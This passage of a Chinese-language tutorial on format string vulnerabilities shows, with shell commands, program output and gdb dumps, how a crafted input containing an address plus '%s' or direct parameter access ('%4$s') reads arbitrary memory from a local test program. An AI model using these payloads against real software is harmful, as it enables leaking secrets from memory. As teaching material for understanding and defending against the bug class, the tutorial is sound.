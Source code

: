 ### 1.5.2 用%s读取任意字符串

因为我们控制着格式字符串的输入，所以我们可以读取该程序的任意内存里的数据。

```
# ./fmttest "AAAA %08x %08x  %08x  %s "
Segmentation fault
```

My god! Segmentation fault！ 为什么呢？ 因为%s要读取的内存地址0x41414141里的数据，这个地址不受该程序管理，所以就Segmentation fault了。

我们只需要提供有效的地址，就不会出现Segmentation fault了。

下面我们用 0xbffffffa 这个地址来测试下：

```
./fmttest `printf "\xfa\xff\xff\xbf"`"%08x %08x  %08x  %s"
𿾢ffff8b1 001ac240  001ad240  t
Canary at 0x0804a028 = 0x00000000
```

程序预期打印了“t”出来， 而0xbffffffa里的内容为什么是t是呢？我在前面的文章里提到过，每个程序的栈顶都是从最高的地址0xbfffffff（7个f） 开始的，开始有4个字符为空字节，然后就是程序名字，而我们演示的程序名字为fmttest，最后一个字母是“t”，所以上例打印了一个“t”出来。

![](http://upload-images.jianshu.io/upload_images/2405665-bfe9903b6bc25711.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
图2 栈顶示意图

我们可以用gdb验证一下：

```
(gdb) x/8s 0xbffffffa
0xbffffffa:    "t"
0xbffffffc:    ""
0xbffffffd:    ""
0xbffffffe:    ""
0xbfffffff:    ""
(gdb) x/8s 0xbfffffe0
0xbfffffe0:    "user/0"
0xbfffffe7:    "/root/printf/fmttest"
0xbffffffc:    ""
0xbffffffd:    ""
0xbffffffe:    ""
0xbfffffff:    ""
```

### 1.5.3 利用直接参数访问来简化处理

我们可以通过直接参数访问技术从栈上访问第四个参数，方法是使用 #$格式控制指示：

```
./fmttest `printf "\xfa\xff\xff\xbf"`"%08x %4\$s"
𿾢ffff8bb t
Canary at 0x0804a028 = 0x00000000
```

上例的 “%4\$s” 即是直接参数访问技术的应用， 其中的'\'是跳脱符号，避免SHELL将$解释。通过这个技术，大大方便了我们对参数的访问。
